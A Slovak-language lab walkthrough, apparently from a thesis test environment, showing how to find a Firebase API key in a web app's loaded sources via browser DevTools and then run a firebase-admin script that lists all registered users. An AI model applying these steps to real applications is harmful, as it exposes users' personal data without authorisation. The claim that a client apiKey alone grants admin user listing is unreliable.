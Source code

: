 # Sensitive data exposure 

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Cieľom útoku je odhaliť citlivé údaje napisané v kóde. Pozornosť venujeme API kľúčom, pomocou ktorých sú sprístupnené služby používané aplikáciou.
- Klávesou F12 si vieme otvoriť vývojársku konzolu. Preklikneme sa na položku "Sources", kde vidíme všetky zdrojové kódy, ktoré boli načítané.
- Postupne môžeme prechádzať súbor po súbore a hľadať citlivé údaje. Jedným z nich môže byť napríklad API key, ktorý je v podstate prístupový kľúč k danej službe. Nás v tomto prípade
  bude zaujímať prístupový kľúč ku Firebase API, vďaka ktorému budeme môcť získať údaje uložené vo Firebase účte vývojára aplikácie alebo vlastníka aplikácie.
- Kliknime na ľubovoľný súbor a kombináciou kláves Ctrl + F vyhľadáme kľúčové slovo v súbore. Skúsime vyhľadať "apiKey" a postupne prechádzať jednotlivé súbory kým nenájdeme zhodu.
- Konfiguračný objekt môže vyzerať nasaledovne:

      const firebaseConfig = {
              apiKey: "AIzaayCx_tvo5GYYtbjFgSsbGtQv7TWb6mreZWg",
              authDomain: "test-app.firebaseapp.com",
              projectId: "test-app",
              storageBucket: "test-app.appspot.com",
              messagingSenderId: "548553603022",
              appId: "1:548553604021:web:6628aba44c524cbf19cf69",
            };
- 
- Zhoda bola nájdená v súbore auth.js a nachádza sa tu celá konfigurácia pre použitie služby.
- Teraz si môžeme vytvoriť vlastný kód a zavolať ľubovoľné metódy z API a sprístupniť dáta o zaregistrovaných používateľoch.
  ```
  const admin = require("firebase-admin");
    
  const firebaseConfig = {
            apiKey: "AIzaayCx_tvo5GYYtbjFgSsbGtQv7TWb6mreZWg",
            authDomain: "test-app.firebaseapp.com",
            projectId: "test-app",
            storageBucket: "test-app.appspot.com",
            messagingSenderId: "548553603022",
            appId: "1:548553604021:web:6628aba44c524cbf19cf69",
          };
    
  admin.initializeApp(firebaseConfig); 
  const auth = admin.auth();
  
  async function getAllUsers() {
    try {
      const userList = await auth.listUsers();
      userList.users.forEach(userRecord => {
        console.log("User: ", userRecord);
      });
    } catch (error) {
      console.error("Error fetching users:", error);
    }
  }

  getAllUsers();
    ```

- Teraz môžeme spustiť kód v online javascript prostredí https://www.programiz.com/javascript/online-compiler/. nahradením firebaseConfig objektu a spustením získame údaje o všetkých používateľoch zaregistrovaných v aplikácii.
- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/sensitive-data-exposure-apikey.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/sensitive-data-exposure-apikey.mp4)
